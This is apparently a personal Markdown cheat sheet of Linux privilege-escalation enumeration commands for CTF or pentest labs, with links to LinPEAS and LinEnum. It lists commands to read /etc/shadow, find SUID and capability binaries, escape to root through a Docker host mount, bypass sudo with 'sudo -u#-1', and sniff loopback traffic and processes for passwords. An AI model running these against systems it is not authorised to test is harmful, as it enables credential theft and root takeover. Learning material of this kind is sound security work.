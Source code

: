 ## Linux Enumeration

I only transfer linpeas, if I am not able to find anything manually

### Links
- [LinPeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)

### Do this

```
alias ll='clear ; ls -lsaht --color=auto'
```

### Writable Paths

```
/dev/shm/
/tmp/
/home/<USER>/
/var/www/html/<>
```

### Alternatives of `cat`

```
# using grep 
grep . <filename> 

# print all files in current dir 
grep -R . 

# script 
while read line; do echo $line; done < FILE
```
### Path Fix

```
export PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:$PATH

also an option:
PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/usr/games:/tmp
```
### Quick Wins

```
ls -la /etc/passwd # See if you can write into /etc/passwd
find / -writable -type d 2>/dev/null # insecure file perms
cat /etc/crontab # crontab
uname -r # Kernel exploit
find / -perm -u=s -type f 2>/dev/null # GTFO Bins now.
docker run -v /:/mnt --rm -it alpine chroot /mnt sh # Docker
sudo -l # Sudo privs on what
getcap -r / 2>/dev/null # ep in end means privilege everything # GTFO Bins.
cat /etc/exports  # Check if rw and "no_root_squash" both are present  # The directory in which both are present is shareable and mountable.
env
cat .bashrc
history
watch -n 1 "ps -aux | grep pass" # grep pass in processes
sudo tcpdump -i lo -A | grep "pass" # sometimes password in here

grep "CRON" /var/log/syslog # inspecting cron logs
```

### Manual Enumeration

```
bash -i # Interactive bash
whoami
id
cat /etc/passwd # If www user us then meaning web server is there
uname -a # Kernel Version and Arch
cat /etc/issue # Kernel Version
Sysinfo
ps aux # What's running by root?
hostname
hostnamectl
ifconfig
ip route
ip a # If connection is connected to more than 1 network
arp -a
/opt/linux_privesc/chisel # Internal running ports
netstat -a # Internal running ports
cat /var/html # Config Files
/sbin/route # Route table
ls -la passwd
cat /etc/passwd | cut -d : -f 1 # Usernames
cat /etc/shadow
cat /etc/group
cat /etc/os-release
cat .bash_history
history
grep -Hs iptables /etc/* # Firewall rules if lucky

'sudo -u#-1 /bin/bash' # !root (no root)

# Find commands
locate flag.txt
which flag.txt
find / -name flag.txt >2/dev/null

find / -type f -readable  2>/dev/null | egrep -v '^(/proc|/sys|/snap|/boot|/var|/run|/dev|/opt|/etc|/usr/lib|/usr/s?bin|/usr/share/)'


```


### Search for text in files (and !)

```
# search keyword in all files recursive
grep -iR "<keyword>" <SEARCH-PATH> --color=alwauys 2>/dev/null
grep -Rnw <path-to-search> -ie "<keyword>" --color=always 2>/dev/null

# grep all files not containing certain text
grep -L "TEXT_FILE_SHOULD_NOT_CONTAIN" [files | *.extension]

# print file contents without comments (#) and removes the empty lines.
grep -v "^[#;]" FILE | grep -v "^$" 
```
